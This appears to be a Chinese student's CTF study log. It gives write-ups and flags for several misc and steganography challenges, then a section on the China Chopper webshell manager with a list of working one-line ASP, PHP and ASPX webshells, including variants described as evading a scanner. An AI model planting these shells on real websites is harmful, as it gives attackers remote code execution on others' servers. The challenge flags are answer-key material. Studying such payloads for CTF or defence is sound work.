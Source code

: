 # 2020/12/13

## 日常writeup

1、菜刀666

2、[GXYCTF2019]佛系青年

伪加密，打开是与佛论禅

flag{w0_fo_ci_Be1}

3、认真你就输了

下载得到一个xls文件，打开有一堆坐标和一个坐标轴

还有一个提示The flag is under this nicely made chart

搜了一下才知道xls可以用压缩软件打开，在chart文件夹里面发现有

flag.txt

flag{M9eVfi2Pcs#}

4、藏藏藏

将图片后缀改成zip，解压后得到二维码，扫了之后得到

flag{you are the best!}

5、EasyBaBa

打开是图片，改后缀变成zip，解压得到一个avi，用**kinovea**一帧一帧看截图再扫二维码，拼接得到

flag{imagin_love_Y1ng}

6、你猜我是个啥

拖到后面直接有

flag{i_am_fl@g}....

7、神奇的二维码

下载得到一个二维码，扫了之后

swpuctf{flag_is_not_here}

改后缀得到压缩包，解压得到

YXNkZmdoamtsMTIzNDU2Nzg5MA==

是base64编码，解码后得到

asdfghjkl1234567890

这不是和键盘第二列一样吗，提交没用，寻找一下键盘QWE加密法

得到KLMNOPQRS1234567890，还是没用，应该是方向错了

放到kali里面binwalk一下，发现有4个压缩包

直接

> binwalk -e 1.png

分别是716A.rar 7104.rar 17012.rar 18994.rar

第一个打开是加密的，有一个flag.txt

第二个打开后解密就是前面的asdfghjkl1234567890

第三个打开后是一个flag.doc

一串乱码，没有=不像base64解码

第四个加密了打不开，里面有一段MP3

猜测是莫斯密码

实在想不出来，看了writeup才知道flag.doc里面是经过20次base64编码的，接出来就是第四个压缩包的密码，然后解出摩斯密码

flag{morseisveryveryeasy}

## 中国菜刀

>  中国菜刀是一款专业的网站管理软件，用途广泛，使用方便，小巧实用。只要支持动态脚本的网站，都可以用中国菜刀来进行管理！在非简体中文环境下使用，自动切换到英文界面。UNICODE方式编译，支持多国语言输入显示。

主要功能：

+ 文件管理
+ 虚拟终端
+ 数据库管理

### 一句话木马

一句话木马就是一句简单的脚本语言

> **asp一句话木马：
> **　　 <%execute(request("value"))%>
> 　　**php一句话木马：
> **　　 <?php @eval($_POST[value]);?>
> 　　**aspx一句话木马：
> **　　<%@ Page Language="Jscript"%>
> 　　<%eval(Request.Item["value"])%>
>
> **其他一句话木马：**
>
> <%eval request("value")%>
> 　　<%execute request("value")%>
> 　　<%execute(request("value"))%>
> 　　<%If Request("value")<>"" Then Execute(Request("value"))%>
> 　　<%if request ("value")<>""then session("value")=request("value"):end if:if session("value")<>"" then execute session("value")%>
> 　　<SCRIPT language=VBScript runat="server">execute request("value")</SCRIPT>
> 　　<%@ Page Language="Jscript"%>
> 　　<%eval(Request.Item["value"],"unsafe");%>
> 　　**可以躲过雷客图的一句话木马：**
> 　　<%
> 　　set ms = server.CreateObject("MSScriptControl.ScriptControl.1")
> 　　ms.Language="VBScript"
> 　　ms.AddObject "Response", Response
> 　　ms.AddObject "request", request
> 　　ms.ExecuteStatement("ev"&"al(request(""value""))")
> 　　%>
> 　　**不用'<,>'的asp一句话木马：**
> 　　<script language=VBScript runat=server>execute request("value")</script>
> 　　**不用双引号的一句话木马：**
> 　　<%eval request(chr(35))%>


